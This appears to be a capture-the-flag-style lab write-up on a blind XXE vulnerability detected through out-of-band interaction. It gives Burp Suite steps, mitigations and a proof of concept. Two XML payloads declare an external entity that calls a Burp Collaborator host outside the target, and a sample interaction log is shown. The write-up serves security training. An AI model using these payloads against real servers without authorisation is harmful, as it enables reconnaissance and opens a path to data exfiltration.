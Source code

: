 # 1. Blind XXE with Out-of-Band Interaction

## 2. CVSS Score

**CVSS v3.1 Base Score: 9.1 (Critical)**
**CWE-611: Improper Restriction of XML External Entity Reference (‘XXE’)**

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A10:2021 – Server-Side Request Forgery (SSRF)**

---

## 4. Description of Vulnerability

This lab demonstrates a **blind XML External Entity (XXE)** vulnerability that does not directly return any data in the HTTP response. However, the XML parser still processes the external entity and triggers **out-of-band (OAST)** network interactions—making it detectable via tools like **Burp Collaborator**.

In this scenario, an attacker defines an external entity referencing a URL containing a Burp Collaborator payload. When the server processes the XML input, it attempts to resolve the external entity by making a DNS or HTTP request to the attacker-controlled domain—providing out-of-band evidence of successful exploitation.

---

## 5. Detailed Explanation of What We Performed

Since the application doesn’t reflect external entity content in its HTTP responses, we used **Burp Suite Professional** and its **Collaborator** feature to detect server interaction with a payload-hosting domain. The server’s attempt to resolve the malicious entity proves the existence of a blind XXE vulnerability.

---

## 6. Step-by-Step Procedure

🔹 **Step 1: Visit the Target and Intercept the Request**

1. Navigate to a product page on the lab website.
2. Click **"Check stock"**.
3. Intercept the resulting **POST** request using **Burp Suite Proxy**.

🔹 **Step 2: Generate a Burp Collaborator Payload**

4. In **Burp Suite**, go to the **Collaborator** tab.
5. Click **"Copy to clipboard"** to generate a unique Collaborator subdomain.

🔹 **Step 3: Inject the Malicious External Entity**

6. Modify the request in **Burp Repeater** or **Proxy** to include a malicious `DOCTYPE` declaration referencing the Burp Collaborator subdomain. Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-COLLABORATOR-ID.burpcollaborator.net"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

7. Replace `YOUR-COLLABORATOR-ID.burpcollaborator.net` with your actual Collaborator payload.

🔹 **Step 4: Forward the Request and Monitor Collaborator**

8. Forward the modified request to the server.
9. Return to the **Burp Collaborator** tab and click **"Poll now"**.

🔹 **Step 5: Confirm Server-Side Interaction**

10. Within a few seconds, you should see **DNS** and/or **HTTP** interactions initiated by the server, confirming the external entity was processed and the server reached out to your payload domain.

---

## 7. Impact of the Vulnerability

* **Data Exfiltration**: Though blind, XXE can be used to exfiltrate sensitive data via out-of-band channels.
* **Internal Resource Access**: If combined with SSRF, blind XXE may allow attackers to interact with internal services.
* **Reconnaissance**: Even without direct response data, attackers gain valuable insight into server behavior and configuration.

---

## 8. Recommendations and Mitigations

* **Disable DTD Processing**: Configure the XML parser to reject `DOCTYPE` declarations and external entities.
* **Use Hardened Parsers**: Employ secure XML libraries that reject XXE by default.
* **Enforce Outbound Filtering**: Restrict server-side applications from making unauthorized external network requests.
* **Monitor for DNS Leaks**: Watch for unexpected domain resolutions, especially to known payload infrastructure like Burp Collaborator.

---

## 9. References

* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PortSwigger XXE Guide](https://portswigger.net/web-security/xxe/blind)

---

## 10. Proof of Concept

### Payload Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://abc123xyz.burpcollaborator.net"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Collaborator Log Output:

```
[DNS] abc123xyz.burpcollaborator.net -> <source-ip>
[HTTP] GET / HTTP/1.1
Host: abc123xyz.burpcollaborator.net
User-Agent: Java/1.8.0
